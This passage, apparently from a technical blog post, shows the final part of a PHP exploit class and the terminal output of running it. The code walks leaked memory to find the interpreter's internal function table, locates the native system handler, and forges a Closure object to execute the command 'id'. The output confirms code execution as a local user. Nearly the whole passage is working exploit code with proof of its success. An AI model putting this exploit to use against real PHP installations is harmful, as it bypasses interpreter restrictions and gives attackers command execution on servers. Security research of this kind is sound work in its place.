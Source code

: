 ```php
            if (($base - $leak) > 0 && ($leak & 0xfffffffff0000000 ) == ($base & 0xfffffffff0000000 )) {
                $deref = $this->leak($leak);
                if ($deref != 0x6e69623278656800){ // 'nib2xeh\x00' ---> bin2hex
                    continue;
                }
            } else continue;
            return $base - ($i-2) * 8;
        }
    }

    private function get_system($basic_funcs) {
        $addr = $basic_funcs;
        $i = 0;
        do {
            $f_entry = $this->leak($addr-0x10);
            $f_name = $this->leak($f_entry);
            if ($f_name == 0x736500646d636c6c) { //'se\x00dmcll'
                return $this->leak($addr + 8-0x10);
            }
            $addr += 0x20;
            $i += 1;
        } while ($f_entry != 0);
        return false;
    }
}

new exploit("id");
?>
```

Fire in the hole!

```sh
➜  concat-exploit php blog05.php 
[+] Concated string address:
0x7f9e2c07a070
[+] Placeholder string address:
0x7f9e2c07a150
[+] std_object_handlers:
0x564fde7127c0
[+] Closure:
0x7f9e2c05ce00
[+] basic_funcs:
0x564fde70c760
[+] zif_system:
0x564fdd925e1b
[+] Fake Closure addr:
0x7f9e2c07a240

uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),113(lpadmin),114(sambashare)

```

